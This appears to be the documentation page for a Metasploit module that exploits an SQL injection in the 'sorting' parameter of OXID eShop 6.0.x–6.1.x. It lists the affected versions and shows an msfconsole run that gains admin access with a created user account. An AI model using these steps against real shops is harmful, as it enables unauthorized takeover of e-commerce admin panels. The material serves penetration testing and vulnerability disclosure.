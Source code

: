 ## Description

This module takes advantage of missing input validation within the "sorting" parameter in the OXID web shop.
A part of the sorting parameter is used within an ORDER BY clause with no input validation (except single and double quotes).

In order to exploit this vulnerability a detailed product description has to be called with the maliciously crafted sorting URL parameter.

More info about the vulnerability can be found within the module source code and the [vulnerability writeup](https://blog.ripstech.com/2019/oxid-esales-shop-software/)

## Vulnerable Application

* Affected products

  * OXID eShop Enterprise Edition (“EE”)
  * OXID eShop Professional Edition (“PE”)
  * OXID eShop Community Edition (“CE”)

* Affected Versions
  * OXID eShop EE, PE and CE v6.0.0 – v6.0.4
  * OXID eShop EE, PE and CE v6.1.0 – v6.1.3

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/oxid_web_shop_admin```
  3. Do: ``set rhosts <address/IP>``
  3. Do: ``set email <email>``
  5. Do: ``set targeturi <Path_to_detailed_item_view>``
  5. Do: ``run``

## Scenarios

  Example run against OXID eShop CE 6.0.2 with user account evil@gmail.com:

```
Create user account on the OXID shop with the email evil@gmail.com
Browse to the detailed view of an item and copy the URL path for the "targeturi"

msf5 > use exploit/multi/http/oxid_web_shop_admin 
msf5 auxiliary(multi/http/oxid_web_shop_admin) > set rhosts 10.97.98.211
rhosts => 10.97.98.211
msf5 auxiliary(multi/http/oxid_web_shop_admin) > set targeturi /en/Gear/Sportswear/Neoprene/Suits/Wetsuit-NPX-ASSASSIN.html
targeturi => /en/Gear/Sportswear/Neoprene/Suits/Wetsuit-NPX-ASSASSIN.html
msf5 auxiliary(multi/http/oxid_web_shop_admin) > set email evil@gmail.com
msf5 auxiliary(multi/http/oxid_web_shop_admin) > run
[*] Running for 10.97.98.211...
[+] Exploit HTTP response code: 200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

Go to http://10.97.98.211/admin/
Log in with your created user account
```
